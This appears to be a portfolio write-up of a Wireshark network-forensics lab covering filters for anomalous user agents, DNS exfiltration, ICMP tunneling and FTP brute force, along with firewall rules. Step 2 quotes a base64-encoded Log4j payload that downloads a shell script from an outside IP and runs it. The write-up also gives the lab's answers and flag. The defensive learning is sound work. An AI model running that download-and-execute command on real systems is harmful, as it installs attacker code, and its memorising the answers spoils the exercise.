 # Network Security and Traffic Analysis Project

This project covers an in-depth analysis of network traffic, utilizing packet captures to identify, investigate, and mitigate various network-based incidents. Through a series of tasks, I applied filtering techniques to Wireshark captures to extract key insights and develop firewall rules.

## Objective

The goal was to analyze network traffic in order to detect anomalies, investigate potential security threats, and enforce firewall rules to improve network security.

## Skills Learned

- **Advanced Packet Filtering**: Created complex filters to isolate specific traffic types across protocols such as DNS, HTTP, TCP, and FTP.
- **Protocol Analysis**: Interpreted various protocols and payloads, including decoding base64-encoded commands and identifying abnormal user-agent strings.
- **Firewall Rule Creation**: Developed firewall rules to block or allow traffic based on specific IP addresses and MAC addresses.
- **Incident Response**: Investigated suspicious network activities, including brute-force login attempts, Log4j exploit attempts, and ICMP tunneling.

## Tools Used

- **Wireshark**: For filtering and inspecting packets at a granular level.
- **Command Line (Linux)**: For decoding encoded traffic and handling command-line-based network tasks.

## Steps

### 1. Anomalous User-Agent Detection
- **Objective**: Identify anomalous "User-Agent" types.
- **Filter Used**: `Http.user_agent`
- **Result**: 6 anomalous user-agent types detected.

![image](https://github.com/user-attachments/assets/c9eb7c4d-945a-4f72-9aa4-26b3c1642e78)

### 2. Log4j Exploit Analysis
- **Objective**: Detect the IP contacted by adversary using a Log4j exploit and decode the payload.
- **Command Used**: `echo d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA== | base64 --decode`
- **Result**: IP address contacted by the adversary was 62[.]210[.]130[.]250.

![Log4j Exploit Analysis](https://github.com/user-attachments/assets/cd358b9c-cf17-450a-9888-88ca9b307ff5)


### 3. Kerberos Traffic - Identifying User IPs
- **Objective**: Find the IP address of user "u5" in Kerberos packets.
- **Filter Used**: `kerberos.CNameString contains "u5"`
- **Result**: IP address of user "u5" is 10[.]1[.]12[.]2.

![Kerberos User IP Identification](https://github.com/user-attachments/assets/159f359f-3f8c-4ea9-a77c-e4209c99e6d2)


### 4. ICMP Tunneling Detection
- **Objective**: Identify protocol used in ICMP tunneling.
- **Filter Used**: `(data.len > 64) and (icmp contains "ssh")`
- **Result**: SSH protocol was detected in ICMP tunnel.

![ICMP Tunneling with SSH Protocol](https://github.com/user-attachments/assets/52089aeb-393a-4257-ab37-5171eb05aeff)


### 5. DNS Exfiltration Analysis
- **Objective**: Detect suspicious DNS queries with long domain names.
- **Filter Used**: `dns.qry.name.len > 40 and !mdns && dns.qry.name contains ".com"`
- **Result**: Anomalous queries were directed to "dataexfil[.]com".

![DNS Exfiltration Detection](https://github.com/user-attachments/assets/4630a662-deb3-40e0-9890-78ecba511411)


### 6. FTP Brute-Force Login Attempts
- **Objective**: Count incorrect FTP login attempts.
- **Filter Used**: `Ftp.response.code == 530`
- **Result**: 737 incorrect login attempts detected.

![FTP Brute-Force Attempts](https://github.com/user-attachments/assets/47e63e2f-84a7-44a6-a008-0cb9efb0e350)


### 7. Empty Password Submission in FTP
- **Objective**: Identify the packet where an empty password was submitted.
- **Filter Used**: `ftp.request.command == "PASS"`
- **Result**: Found in packet number 170.

![Empty Password Submission](https://github.com/user-attachments/assets/9efd6930-3f75-413e-a8ee-6b0679cef9a9)


### 8. Firewall Rule for Denying Specific IP
- **Objective**: Create an IPFirewall rule to deny a specific source IP address.
- **Rule**: `add deny ip from 10.121.70.151 to any in`
- **Packet Reference**: 99

![Deny IP Firewall Rule](https://github.com/user-attachments/assets/152f3117-e4db-45e2-9e54-250c0981deec)

### 9. Allowing Traffic from Specific MAC Address
- **Objective**: Configure IPFirewall to allow traffic from a specific MAC address.
- **Rule**: `add allow MAC 00:d0:59:aa:af:80 any in`
- **Packet Reference**: 231

![Allow MAC Firewall Rule](https://github.com/user-attachments/assets/58b58c5a-0c5b-49f8-96a5-8db777599234)


### 10. HTTP2 Traffic Analysis and Flag Discovery
- **Objective**: Decrypt HTTP2 traffic to locate a hidden flag.
- **Result**: The flag was identified as `FLAG{THM-PACKETMASTER}`.

![HTTP2 Flag Discovery](https://github.com/user-attachments/assets/94b09df9-feb2-4687-89f0-6cd99f0419ca)


## Conclusion

This project demonstrated the effectiveness of packet filtering and protocol analysis in identifying network anomalies and security incidents. By using targeted filters and firewall rules, I was able to reveal critical data patterns, investigate security threats, and enforce access control measures. This exercise was instrumental in strengthening my skills in network traffic analysis and security response.




